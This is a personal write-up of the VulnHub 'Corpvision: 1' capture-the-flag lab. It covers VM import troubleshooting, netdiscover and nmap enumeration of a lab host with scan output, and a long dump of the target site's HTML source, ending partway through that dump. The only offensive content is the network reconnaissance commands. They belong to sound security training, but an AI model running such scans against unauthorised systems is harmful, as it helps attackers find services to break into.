

https://www.vulnhub.com/entry/corpvision-1,691/

https://www.youtube.com/watch?v=OisRkF9Kr5E

# Corpvision 👨‍💼💼

### ***Disclaimer: I did not manage to get the root flag of this CTF*** ‚ùåüö©‚ùå

- **Name**: Corpvision: 1
- **Date release**: 2 May 2021
- **Author**: [Gaurav Raj](https://www.vulnhub.com/author/gaurav-raj,795/)
- **Series**: [Corpvision](https://www.vulnhub.com/series/corpvision,469/)

### Download

Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network. If you understand the risks, please download!

- **corpvision.ova** (Size: 578 MB)
- **Download (Mirror)**: [https://download.vulnhub.com/corpvision/corpvision.ova](https://download.vulnhub.com/corpvision/corpvision.ova)

### Description

Corpvision - Vision to your Future
Corpvision is a Company that hired Steven Smith, A Web Developer to create their website and now they hired you to test the security of their website. So Get, Set, and Go :)
Difficulty: Beginner to Intermediate
Tested On: Works well on VirtualBox, haven't tested on any other platforms.
Facing any issue or any suggestions, hit me up on Twitter at twitter/@thehackersbrain.
This works better with VirtualBox rather than VMware

### File Information

- **Filename**: corpvision.ova
- **File size**: 578 MB
- **MD5**: 1D1E80DA83A6D54AFA6EF6405E2E8438
- **SHA1**: BB3F8F2023F9B1FE84FDB555863DEF84F42F28EB

### Virtual Machine

- **Format**: Virtual Machine (Virtualbox - OVA)
- **Operating System**: Linux

### Networking

- **DHCP service**: Enabled
- **IP address**: Automatically assign

---

# Installation 🔌💻🖥️🛜💾🔌

This was actually pretty troublesome, it was no no-brainer installation, which even got me confused about VirtualBox... 
What are the differences of "New Machine" "Add Machine" and "Import Appliance"?

I had to ask ChatGPT for a quick answer, let's get this detail straight! once and for all!!

VirtualBox gives you **three different ways** to get a virtual machine up and running, and each serves a **different purpose**. Here's a breakdown of the differences:

---

### üîß **1. "New" Machine**

- **Use this when**: You want to **create a brand new virtual machine from scratch**.
    
- **What it does**:
    - Starts the VM creation wizard.
    - You choose the OS type (Linux, Windows, etc.).
    - Set RAM, disk size, etc.
    - You install the OS yourself from an ISO.
        
- **Example use case**: You downloaded Kali Linux ISO and want to install it manually.

---

### ‚ûï **2. "Add" Machine**

- **Use this when**: You already **have a VM folder (.vbox + virtual disk)** that was either backed up or created elsewhere.
    
- **What it does**:
    - Lets you select an existing `.vbox` file from disk.
    - Registers it in VirtualBox so you can use it again.
        
- **Example use case**: You copied a VM from another PC or reinstalled VirtualBox and want to re-add your old VMs.

---

### 📦 **3. "Import Appliance"**

- **Use this when**: You have an **exported VM in .ova or .ovf format**.
    
- **What it does**:
    - Imports a virtual appliance (a packaged VM).
    - Automatically sets up the VM according to the appliance config.
        
- **Example use case**: You downloaded a **VulnHub** or **training VM** (like Metasploitable, OWASP Broken Web App) in `.ova` format.

---

### 🔁 Summary Table

|Option|Input Format|Typical Use Case|
|---|---|---|
|**New Machine**|Manual setup|Build a fresh VM from scratch using an ISO|
|**Add Machine**|`.vbox` file|Re-add a previously used VM on your system|
|**Import Appliance**|`.ova` / `.ovf`|Use pre-built machines from others or yourself|

---

If you're ever unsure:

- **Use "New"** for fresh starts.
- **Use "Import"** when working with `.ova` or `.ovf`.
- **Use "Add"** if you already have the full VM folder lying around.
    
---

Alright back to the trouble shooting... Whatever I did I got `Result Code: E_INVALIDARG (0x80070057)` an error when importing a `.ova` file (like `corpvision.ova`) usually means **VirtualBox cannot read or parse the file correctly**. Here's how to troubleshoot it:

- We have to convert the ova-file into a zip-file
	- You can find the file on CMD and use this command:
	  `REN corpvision.ova corpvision.zip`


- Then extract the content of the file.


- In Virtual Box you create a "New Machine"!
- Make it Linux 64 bit


- In the settings **"Use an Existing Virtual Hard Disk File"** and use the `corpvision-disk001.vmdk` as the value. 


- But we are not done yet!!
- Remember, there is also a `corpvision-disk002.vmdk` available, let's add that file also!


- Now! Time for network configuration!
- Change the Network adapter from ``NAT`` to `Host-only Adapter`
- Remember that the `"VirtualBox Host-Only Ethernet Adapter"` has to match with your attacking machine.


- Now we should be able to boot up the vulnerable machine!


Jackpot!

---
# Enumeration

 `sudo netdiscover -i eth1`


`nmap -sC -sV <IP> -p-` (For all ports)`
This gave no results

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.121 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 20:33 CEST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.30 seconds

```

but ping has no problems

```sh
┌──(kali㉿kali)-[~]
└─$ ping 192.168.56.121
PING 192.168.56.121 (192.168.56.121) 56(84) bytes of data.
64 bytes from 192.168.56.121: icmp_seq=1 ttl=128 time=0.479 ms
64 bytes from 192.168.56.121: icmp_seq=2 ttl=128 time=0.359 ms
64 bytes from 192.168.56.121: icmp_seq=3 ttl=128 time=0.471 ms
64 bytes from 192.168.56.121: icmp_seq=4 ttl=128 time=1.24 ms
64 bytes from 192.168.56.121: icmp_seq=5 ttl=128 time=0.798 ms
64 bytes from 192.168.56.121: icmp_seq=6 ttl=128 time=0.477 ms
```

Could also just be the wrong IP-address üôÉ

- Let's try the others!


```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.123 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 20:39 CEST
Nmap scan report for 192.168.56.123
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 69:ce:61:c0:c6:3e:2f:78:4e:2d:d6:f1:80:a6:e6:b0 (RSA)
|   256 d6:d3:60:1d:d2:2d:92:9e:06:b5:ad:72:6e:ce:aa:5a (ECDSA)
|_  256 ad:d3:1b:f4:32:3b:bc:de:cc:e5:4e:ad:41:d6:b2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Corp Vision - Corporate Category Bootstrap Responsive Template...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.00 seconds
```

- The Target IP address is `192.168.56.123` without any doubt

- So we can confirm now that we have the following ports open:
	- 22/TCP - SSH
	- 80/TCP HTTP

Let's check that website as the first obvious thing to do!

What we see if we write the IP-address on the browser:


Maybe it could be wisely to check the page source, might be clues:

```html
<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <title>Corp Vision - Corporate Category Bootstrap Responsive Template | Home : W3layouts</title>

    <!-- google fonts -->
    <link href="[//fonts.googleapis.com/css2?family=Jost:wght@300;400;600&display=swap](view-source:http://fonts.googleapis.com/css2?family=Jost:wght@300;400;600&display=swap)" rel="stylesheet">
    
    <!-- Template CSS -->
    <link rel="stylesheet" href="[/static/assets/css/style-starter.css](view-source:http://192.168.56.123/static/assets/css/style-starter.css)">
    
  </head>
  <body>
<!--header-->
<header id="site-header" class="fixed-top">
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-dark stroke">
        <h1>
          <a class="navbar-brand" href="[index.html](view-source:http://192.168.56.123/index.html)">
            <span class="fa fa-align-right"></span> Corp Vision <span class="logo">Vision to your Future</span></a>
        </h1>
  
        <!-- if logo is image enable this   
          <a class="navbar-brand" href="#index.html">
              
          </a> -->
        <button class="navbar-toggler  collapsed bg-gradient" type="button" data-toggle="collapse"
          data-target="#navbarTogglerDemo02" aria-controls="navbarTogglerDemo02" aria-expanded="false"
          aria-label="Toggle navigation">
          <span class="navbar-toggler-icon fa icon-expand fa-bars"></span>
          <span class="navbar-toggler-icon fa icon-close fa-times"></span>
          </span>
        </button>
  
        <div class="collapse navbar-collapse" id="navbarTogglerDemo02">
          <ul class="navbar-nav mx-lg-auto">
            <li class="nav-item active">
              <a class="nav-link" href="[/](view-source:http://192.168.56.123/)">Home <span class="sr-only">(current)</span></a>
            </li>
            <li class="nav-item @@about__active">
              <a class="nav-link" href="[/about](view-source:http://192.168.56.123/about)">About</a>
            </li>
            <li class="nav-item @@services__active">
              <a class="nav-link" href="[/services](view-source:http://192.168.56.123/services)">Services</a>
            </li>
            <li class="nav-item @@contact__active">
              <a class="nav-link" href="[/contact](view-source:http://192.168.56.123/contact)">Contact</a>
            </li>
          </ul>
          </div>
  
          <!--/search-right-->
          <div class="header-search">
            <div class='control mr-3'>
              <div class='btn-material'>
                <i class='fa fa-search icon-material-search'></i>
              </div>
            </div>
            <!-- full screen form controls -->
            <i class='icon-close fa fa-close material-icons'></i>
            <form action="[error.html](view-source:http://192.168.56.123/error.html)" method="GET" class='search-input'>
              <input class='input-search' placeholder='Start Typing' type='text'>
            </form>
          </div>
          <!--//search-right-->

          <!-- toggle switch for light and dark theme -->
          <div class="mobile-position">
            <nav class="navigation">
              <div class="theme-switch-wrapper">
                <label class="theme-switch" for="checkbox">
                  <input type="checkbox" id="checkbox">
                  <div class="mode-container py-1">
                    <i class="gg-sun"></i>
                    <i class="gg-moon"></i>
                  </div>
                </label>
              </div>
            </nav>
          </div>
          <!-- //toggle switch for light and dark theme -->
      </nav>

    </div>
  </header>
  <!--/header-->

<!-- hero slider Start -->
<div class="banner-wrap">
	<div class="banner-slider">
		<!-- hero slide start -->
		<div class="banner-slide bg1">
			<div class="container">
				<div class="hero-content">
					<h1
						data-animation="flipInX"
						data-delay="0.8s"
						data-color="#fff"
					>
						We will solve your issues our vision to your future
					</h1>
					<p data-animation="fadeInDown" class="mt-4">
						Lorem ipsum dolor sit amet, elit, sed do eiusmod ut
						labore et dolore magna aliqua. Ut enim ad minim veniam,
						quis nisi ut ea.
					</p>
					<div
						class="cta-btn"
						data-animation="fadeInUp"
						data-delay="1s"
					>
						<a href="[#url](view-source:http://192.168.56.123/#url)" class="btn btn-style btn-primary"
							>Learn More</a
						>
					</div>
				</div>
			</div>
			<div class="hero-overlay"></div>
		</div>
		<!-- hero slide end -->
		<!-- hero slide start -->
		<div class="banner-slide bg2">
			<div class="container">
				<div class="hero-content">
					<h1
						data-animation="fadeInDown"
						data-delay="0.8s"
						data-color="#fff"
					>
						Embracing success do our best, need best advice
					</h1>
					<p data-animation="fadeInDown" class="mt-4">
						Lorem ipsum dolor sit amet, elit, sed do eiusmod ut
						labore et dolore magna aliqua. Ut enim ad minim veniam,
						quis nisi ut ea.
					</p>
					<div
						class="cta-btn"
						data-animation="fadeInDown"
						data-delay="1s"
					>
						<a href="[#url](view-source:http://192.168.56.123/#url)" class="btn btn-style btn-primary"
							>Get Started</a
						>
					</div>
				</div>
			</div>
			<div class="hero-overlay"></div>
		</div>
		<!-- hero slide end -->
		<!-- hero slide start -->
		<div class="banner-slide bg3">
			<div class="container">
				<div class="hero-content">
					<h1
						data-animation="fadeInUp"
						data-color="#fff"
						data-delay="0.8s"
					>
						Digital transformation driven by technology
					</h1>
					<p data-animation="fadeInUp" class="mt-4">
						Lorem ipsum dolor sit amet, elit, sed do eiusmod ut
						labore et dolore magna aliqua. Ut enim ad minim veniam,
						quis nisi ut ea.
					</p>
					<div
						class="cta-btn"
						data-animation="fadeInDown"
						data-delay="1s"
					>
						<a href="[#url](view-source:http://192.168.56.123/#url)" class="btn btn-style btn-primary"
							>Learn More</a
						>
					</div>
				</div>
			</div>
			<div class="hero-overlay"></div>
		</div>
		<!-- hero slide end -->
		<!-- hero slide start -->
		<div class="banner-slide bg4">
			<div class="container">
				<div class="hero-content">
					<h1
						data-animation="flipInX"
						data-color="#fff"
						data-delay="0.8s"
					>
						For those who believe in leaving a mark
					</h1>
					<p data-animation="fadeInDown" class="mt-4">
						Lorem ipsum dolor sit amet, elit, sed do eiusmod ut
						labore et dolore magna aliqua. Ut enim ad minim veniam,
						quis nisi ut ea.
					</p>
					<div
						class="cta-btn"
						data-animation="fadeInUp"
						data-delay="1s"
					>
						<a href="[#url](view-source:http://192.168.56.123/#url)" class="btn btn-style btn-primary"
							>Contact Now</a
						>
					</div>
				</div>
			</div>
			<div class="hero-overlay"></div>
		</div>
		<!-- hero slide end -->
	</div>
	<div class="shape">
		<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1440 280">
			<path fill-opacity="1">
				<animate
					attributeName="d"
					dur="20000ms"
					repeatCount="indefinite"
					values="M0,160L48,181.3C96,203,192,245,288,261.3C384,277,480,267,576,234.7C672,203,768,149,864,117.3C960,85,1056,75,1152,90.7C1248,107,1344,149,1392,170.7L1440,192L1440,320L1392,320C1344,320,1248,320,1152,320C1056,320,960,320,864,320C768,320,672,320,576,320C480,320,384,320,288,320C192,320,96,320,48,320L0,320Z; M0,160L48,181.3C96,203,192,245,288,234.7C384,224,480,160,576,133.3C672,107,768,117,864,138.7C960,160,1056,192,1152,197.3C1248,203,1344,181,1392,170.7L1440,160L1440,320L1392,320C1344,320,1248,320,1152,320C1056,320,960,320,864,320C768,320,672,320,576,320C480,320,384,320,288,320C192,320,96,320,48,320L0,320Z;												 M0,64L48,74.7C96,85,192,107,288,133.3C384,160,480,192,576,170.7C672,149,768,75,864,80C960,85,1056,171,1152,181.3C1248,192,1344,128,1392,96L1440,64L1440,320L1392,320C1344,320,1248,320,1152,320C1056,320,960,320,864,320C768,320,672,320,576,320C480,320,384,320,288,320C192,320,96,320,48,320L0,320Z;
                                                 M0,160L48,181.3C96,203,192,245,288,261.3C384,277,480,267,576,234.7C672,203,768,149,864,117.3C960,85,1056,75,1152,90.7C1248,107,1344,149,1392,170.7L1440,192L1440,320L1392,320C1344,320,1248,320,1152,320C1056,320,960,320,864,320C768,320,672,320,576,320C480,320,384,320,288,320C192,320,96,320,48,320L0,320Z;"
				/>
			</path>
		</svg>
	</div>
</div>
<!-- hero slider end -->
<!-- home page about section -->
<section class="w3l-homeblock1" id="about">
	<div class="midd-w3 py-5">
		<div class="container py-lg-5 py-md-3">
			<div class="row align-items-center">
				<div class="col-lg-6">
					<span class="title-small">About Us</span>
					<h3 class="title-big">
						We make the best strategies for you, Enhancing your
						success
					</h3>
					<p class="mt-md-4 mt-3">
						Lorem ipsum dolor sit amet, consectetur adipiscing elit,
						sed do eiusmod tempor incididunt ut labore et dolore
						magna aliqua. Ut enim ad minim veniam, quis nostrud
						ullamco laboris nisi ut ex ea.
					</p>
					<ul class="service-list pt-lg-2 mt-4">
						<li class="service-link">
							<a href="[#url](view-source:http://192.168.56.123/#url)"
								><span class="fa fa-check-circle"></span> UI/UX
								Design and Development</a
							>
						</li>
						<li class="service-link">
							<a href="[#url](view-source:http://192.168.56.123/#url)"
								><span class="fa fa-check-circle"></span>
								Branding Design and Identity</a
							>
						</li>
						<li class="service-link">
							<a href="[#url](view-source:http://192.168.56.123/#url)"
								><span class="fa fa-check-circle"></span> Mobile
								App Design and Development</a
							>
						</li>
					</ul>
				</div>
				<div class="HomeAboutImages col-lg-6 mt-lg-0 mt-md-5 mt-4">
					<div class="row position-relative">
						<div class="col-6">
							
						</div>
						<div class="col-6 mt-4">
							
							
						</div>
					</div>
				</div>
			</div>
		</div>
	</div>
</section>
<!-- //home page about section -->

<!-- features section -->
<section class="w3l-features py-5" id="work">
	<div class="container py-lg-5 py-md-4 py-2">
		<div class="row main-cont-wthree-2 align-items-center">
			<div class="col-lg-6 feature-grid-left pr-lg-5">
				<h5 class="title-small">Every day brings new challenges</h5>
				<h3 class="title-big mb-4">
					Creative agency focused on vision, product and people
				</h3>
				<p class="text-para">
					Aurabitur id gravida risus. Fusce eget ex fermentum,
					ultricies nisi ac sed, lacinia est. Quisque ut lectus
					consequat, venenatis eros et, sed commodo risus. Nullam sit
					amet laoreet elit. Suspendisse non init magnaa velit
					efficitur, dolor eget ex fermentum.
				</p>
				<a
					href="[about.html](view-source:http://192.168.56.123/about.html)"
					class="btn btn-style btn-primary mt-lg-5 mt-4"
					>Discover More</a
				>
			</div>
			<div class="col-lg-6 feature-grid-right mt-lg-0 mt-md-5 mt-4">
				<div class="call-grids-w3 d-grid">
					<div class="grids-1 box-wrap">
						<div class="icon">
							
						</div>
						<h4>
							<a href="[about.html](view-source:http://192.168.56.123/about.html)" class="title-head"
								>Our Process</a
							>
						</h4>
					</div>
					<div class="grids-1 box-wrap">
						<div class="icon">
							
						</div>
						<h4>
							<a href="[about.html](view-source:http://192.168.56.123/about.html)" class="title-head"
								>How We Help</a
							>
						</h4>
					</div>
					<div class="grids-1 box-wrap">
						<div class="icon">
							
						</div>
						<h4>
							<a href="[about.html](view-source:http://192.168.56.123/about.html)" class="title-head"
								>UI/UX Design</a
							>
						</h4>
					</div>
					<div class="grids-1 box-wrap">
						<div class="icon">
							
						</div>
						<h4>
							<a href="[about.html](view-source:http://192.168.56.123/about.html)" class="title-head"
								>Creative Ideas</a
							>
						</h4>
					</div>
				</div>
			</div>
		</div>
	</div>
</section>
<!-- features section -->
<!--  services section -->
<div class="w3l-servicesblock2" id="services">
	<section id="grids5-block" class="py-5">
		<div class="container py-lg-5 py-md-4 py-2">
			<h3 class="title-big text-center">
				Always there for your care, our Services
			</h3>
			<div class="row mt-lg-5 mt-4 text-center">
				<div class="col-lg-4 col-md-6">
					<div class="grids5-info">
						<a href="[#service](view-source:http://192.168.56.123/#service)" class="d-block zoom"
							></a>
						<div class="blog-info">
							<a href="[#service](view-source:http://192.168.56.123/#service)" class="title">Work Expertise</a>
							<p class="text-para">
								Venenatis eros et, sed commodo risus. Nullam sit
								amet laoreet elit.
							</p>
						</div>
						<a href="[#learnmore](view-source:http://192.168.56.123/#learnmore)" class="btn btn-style1 mt-3"
							>Learn More</a
						>
					</div>
				</div>
				<div class="col-lg-4 col-md-6 mt-md-0 mt-5">
					<div class="grids5-info">
						<a href="[#service](view-source:http://192.168.56.123/#service)" class="d-block zoom"
							></a>
						<div class="blog-info">
							<a href="[#service](view-source:http://192.168.56.123/#service)" class="title"
								>Product Development</a
							>
							<p class="text-para">
								Venenatis eros et, sed commodo risus. Nullam sit
								amet laoreet elit.
							</p>
						</div>
						<a href="[#learnmore](view-source:http://192.168.56.123/#learnmore)" class="btn btn-style1 mt-3"
							>Learn More</a
						>
					</div>
				</div>
				<div class="col-lg-4 col-md-6 mt-lg-0 mt-5">
					<div class="grids5-info">
						<a href="[#service](view-source:http://192.168.56.123/#service)" class="d-block zoom"
							></a>
						<div class="blog-info">
							<a href="[#service](view-source:http://192.168.56.123/#service)" class="title"
								>Software Development</a
							>
							<p class="text-para">
								Venenatis eros et, sed commodo risus. Nullam sit
								amet laoreet elit.
							</p>
						</div>
						<a href="[#learnmore](view-source:http://192.168.56.123/#learnmore)" class="btn btn-style1 mt-3"
							>Learn More</a
						>
					</div>
				</div>
			</div>
		</div>
	</section>
</div>
<!--  //services section -->
<section class="w3l-gallery py-5" id="gallery">
	<div class="container py-lg-5 py-md-4 py-2">
		<div class="title-content text-center mb-5">
			<h3 class="title-small">Our Gallery</h3>
			<h3 class="title-big mx-lg-5">Successful projects we've done</h3>
		</div>
		<div class="row">
			<div class="col-lg-4 col-md-6 item">
				<a
					href="[/static/assets/images/c1.jpg](view-source:http://192.168.56.123/static/assets/images/c1.jpg)"
					data-lightbox="example-set"
					data-title="Project 1"
					class="zoom d-block"
				>
					
					<span class="overlay__hover"></span>
					<span class="hover-content">
						<span class="title">Project 1</span>
						<span class="content"
							>Quisque ut lectus, eros et, sed commodo
							risus.</span
						>
					</span>
				</a>
			</div>
			<div class="col-lg-4 col-md-6 item mt-md-0 mt-4">
				<a
					href="[/static/assets/images/c2.jpg](view-source:http://192.168.56.123/static/assets/images/c2.jpg)"
					data-lightbox="example-set"
					data-title="Project 2"
					class="zoom d-block"
				>
					
					<span class="overlay__hover"></span>
					<span class="hover-content">
						<span class="title">Project 2</span>
						<span class="content"
							>Quisque ut lectus, eros et, sed commodo
							risus.</span
						>
					</span>
				</a>
			</div>

			<div class="col-lg-4 col-md-6 item mt-lg-0 mt-4">
				<a
					href="[/static/assets/images/c3.jpg](view-source:http://192.168.56.123/static/assets/images/c3.jpg)"
					data-lightbox="example-set"
					data-title="Project 3"
					class="zoom d-block"
				>
					
					<span class="overlay__hover"></span>
					<span class="hover-content">
						<span class="title">Project 3</span>
						<span class="content"
							>Quisque ut lectus, eros et, sed commodo
							risus.</span
						>
					</span>
				</a>
			</div>

			<div class="col-lg-4 col-md-6 item mt-4 pt-lg-2">
				<a
					href="[/static/assets/images/c4.jpg](view-source:http://192.168.56.123/static/assets/images/c4.jpg)"
					data-lightbox="example-set"
					data-title="Project 4"
					class="zoom d-block"
				>
					
					<span class="overlay__hover"></span>
					<span class="hover-content">
						<span class="title">Project 4</span>
						<span class="content"
							>Quisque ut lectus, eros et, sed commodo
							risus.</span
						>
					</span>
				</a>
			</div>

			<div class="col-lg-4 col-md-6 item mt-4 pt-lg-2">
				<a
					href="[/static/assets/images/c5.jpg](view-source:http://192.168.56.123/static/assets/images/c5.jpg)"
					data-lightbox="example-set"
					data-title="Project 5"
					class="zoom d-block"
				>
					
					<span class="overlay__hover"></span>
					<span class="hover-content">
						<span class="title">Project 5</span>
						<span class="content"
							>Quisque ut lectus, eros et, sed commodo
							risus.</span
						>
					</span>
				</a>
			</div>

			<div class="col-lg-4 col-md-6 item mt-4 pt-lg-2">
				<a
					href="[/static/assets/images/c6.jpg](view-source:http://192.168.56.123/static/assets/images/c6.jpg)"
					data-lightbox="example-set"
					data-title="Project 6"
					class="zoom d-block"
				>
					
					<span class="overlay__hover"></span>
					<span class="hover-content">
						<span class="title">Project 6</span>
						<span class="content"
							>Quisque ut lectus, eros et, sed commodo
							risus.</span
						>
					</span>
				</a>
			</div>
			<!-- <div class="text-center w-100 mt-md-5 mt-4">
                <a href="#loadmore" class="load btn btn-style btn-outline-primary"> Load More </a>
            </div> -->
		</div>
		<!-- Company logos -->
		<div class="row company-logos pt-5 mt-5 justify-content-center">
			<div class="col-lg-2 col-md-3 col-4">
				
			</div>
			<div class="col-lg-2 col-md-3 col-4">
				
			</div>
			<div class="col-lg-2 col-md-3 col-4">
				
			</div>
			<div class="col-lg-2 col-md-3 col-4 mt-md-0 mt-4">
				
			</div>
			<div class="col-lg-2 col-md-3 col-4 mt-lg-0 mt-4">
				
			</div>
		</div>
		<!-- //Company logos -->
	</div>
</section>

<!-- home page progress section -->
<section class="w3l-progress" id="progress">
	<div class="midd-w3 py-5">
		<div class="container py-lg-5 py-md-4 py-2">
			<div class="row align-items-center">
				<div class="col-lg-6">
					
				</div>
				<div class="col-lg-6 mt-lg-0 mt-md-5 mt-4">
					<span class="title-small">Your success is our success</span>
					<h3 class="title-big mb-4 pb-lg-2">
						Web design, marketing & SEO solutions that get results
					</h3>
					<div class="progress-info info1">
						<h6 class="progress-tittle">
							Marketing <span class="">80%</span>
						</h6>
						<div class="progress">
							<div
								class="progress-bar progress-bar-striped gradient-1"
								role="progressbar"
								style="width: 80%"
								aria-valuenow="90"
								aria-valuemin="0"
								aria-valuemax="100"
							></div>
						</div>
					</div>
					<div class="progress-info info2">
						<h6 class="progress-tittle">
							Responsive Web design <span class="">95%</span>
						</h6>
						<div class="progress">
							<div
								class="progress-bar progress-bar-striped gradient-2"
								role="progressbar"
								style="width: 95%"
								aria-valuenow="95"
								aria-valuemin="0"
								aria-valuemax="100"
							></div>
						</div>
					</div>
					<div class="progress-info info3">
						<h6 class="progress-tittle">
							Analytics <span class="">60%</span>
						</h6>
						<div class="progress">
							<div
								class="progress-bar progress-bar-striped gradient-3"
								role="progressbar"
								style="width: 60%"
								aria-valuenow="95"
								aria-valuemin="0"
								aria-valuemax="100"
							></div>
						</div>
					</div>
					<div class="progress-info info4 mb-0">
						<h6 class="progress-tittle">
							Web Development <span class="">85%</span>
						</h6>
						<div class="progress">
							<div
								class="progress-bar progress-bar-striped gradient-4"
								role="progressbar"
								style="width: 85%"
								aria-valuenow="95"
								aria-valuemin="0"
								aria-valuemax="100"
							></div>
						</div>
					</div>
				</div>
			</div>
		</div>
	</div>
</section>
<!-- //home page progress section -->
<!-- testimonials -->
<section class="w3l-testimonials" id="testimonials">
	<!-- /grids -->
	<div class="cusrtomer-layout py-5">
		<div class="container py-lg-4 py-md-3 py-2 pb-lg-0">
			<h5 class="title-small text-center mb-1">Happy Clients Feedback</h5>
			<h3 class="title-big text-center mb-sm-5 mb-4">
				Reviews and Testimonials
			</h3>
			<!-- /grids -->
			<div class="testimonial-width">
				<div id="owl-demo1" class="owl-two owl-carousel owl-theme">
					<div class="item">
						<div class="testimonial-content">
							<div class="testimonial">
								<blockquote>
									<q
										>Lorem ipsum dolor sit amet elit. Velit
										beatae laudantium voluptate rem ullam
										dolore nisi voluptatibus esse quasi,
										doloribus tempora. Dolores molestias
										adipisci dolo amet!. Lorem ipsum dolor
										sit amet consectetur adipisicing elit.
										Esse architecto est ea sunt eligendi
										cum?</q
									>
								</blockquote>
								<div class="testi-des">
									<div class="test-img">
										
									</div>
									<div class="peopl align-self">
										<h3>John wilson</h3>
										<p class="indentity">Student</p>
									</div>
								</div>
							</div>
						</div>
					</div>
					<div class="item">
						<div class="testimonial-content">
							<div class="testimonial">
								<blockquote>
									<q
										>Lorem ipsum dolor sit amet elit. Velit
										beatae laudantium voluptate rem ullam
										dolore nisi voluptatibus esse quasi,
										doloribus tempora. Dolores molestias
										adipisci dolo amet!.</q
									>
								</blockquote>
								<div class="testi-des">
									<div class="test-img">
										
									</div>
									<div class="peopl align-self">
										<h3>Julia sakura</h3>
										<p class="indentity">Student</p>
									</div>
								</div>
							</div>
						</div>
					</div>
					<div class="item">
						<div class="testimonial-content">
							<div class="testimonial">
								<blockquote>
									<q
										>Lorem ipsum dolor sit amet elit. Velit
										beatae laudantium voluptate rem ullam
										dolore nisi voluptatibus esse quasi,
										doloribus tempora. Dolores molestias
										adipisci dolo amet!.</q
									>
								</blockquote>
								<div class="testi-des">
									<div class="test-img">
										
									</div>
									<div class="peopl align-self">
										<h3>Roy Linderson</h3>
										<p class="indentity">Student</p>
									</div>
								</div>
							</div>
						</div>
					</div>
					<div class="item">
						<div class="testimonial-content">
							<div class="testimonial">
								<blockquote>
									<q
										>Lorem ipsum dolor sit amet elit. Velit
										beatae laudantium voluptate rem ullam
										dolore nisi voluptatibus esse quasi,
										doloribus tempora. Dolores molestias
										adipisci dolo amet!.</q
									>
								</blockquote>
								<div class="testi-des">
									<div class="test-img">
										
									</div>
									<div class="peopl align-self">
										<h3>Smith Johnson</h3>
										<p class="indentity">Student</p>
									</div>
								</div>
							</div>
						</div>
					</div>
				</div>
			</div>
		</div>
		<!-- /grids -->
	</div>
	<!-- //grids -->
</section>
<!-- //testimonials -->
<section class="w3l-blog">
	<div class="blog py-5" id="Newsblog">
		<div class="container py-lg-5 py-md-4 py-2">
			<h5 class="title-small text-center mb-1">Latest News</h5>
			<h3 class="title-big text-center mb-sm-5 mb-4">
				Our insight and articles
			</h3>
			<div class="row">
				<div class="col-lg-4 col-md-6 item">
					<div class="card">
						<div class="card-header p-0 position-relative">
							<a href="[#blog-single](view-source:http://192.168.56.123/#blog-single)" class="zoom d-block">
								
							</a>
						</div>
						<div class="card-body blog-details">
							<div
								class="price-review d-flex justify-content-between mb-1 align-items-center"
							>
								<p>Startup Business</p>
							</div>
							<a href="[#blog-single](view-source:http://192.168.56.123/#blog-single)" class="blog-desc"
								>Business opportunity in developing a reliable
								electric motor.
							</a>
						</div>
						<div class="card-footer">
							<div class="author align-items-center">
								<a href="[#author](view-source:http://192.168.56.123/#author)" class="post-author">
									
								</a>
								<ul class="blog-meta">
									<li>
										<span class="meta-value">by</span
										><a href="[#author](view-source:http://192.168.56.123/#author)"> Jessica</a>
									</li>
								</ul>
								<div class="date">
									<p>20 March, 2021</p>
								</div>
							</div>
						</div>
					</div>
				</div>

				<div class="col-lg-4 col-md-6 item mt-md-0 mt-5">
					<div class="card">
						<div class="card-header p-0 position-relative">
							<a href="[#blog-single](view-source:http://192.168.56.123/#blog-single)" class="zoom d-block">
								
							</a>
						</div>
						<div class="card-body blog-details">
							<div
								class="price-review d-flex justify-content-between mb-1 align-items-center"
							>
								<p>Marketing Strategy</p>
							</div>
							<a href="[#blog-single](view-source:http://192.168.56.123/#blog-single)" class="blog-desc"
								>The fledgling company builds its business
								around AC motors</a
							>
						</div>
						<div class="card-footer">
							<div class="author align-items-center">
								<a href="[#author](view-source:http://192.168.56.123/#author)" class="post-author">
									
								</a>
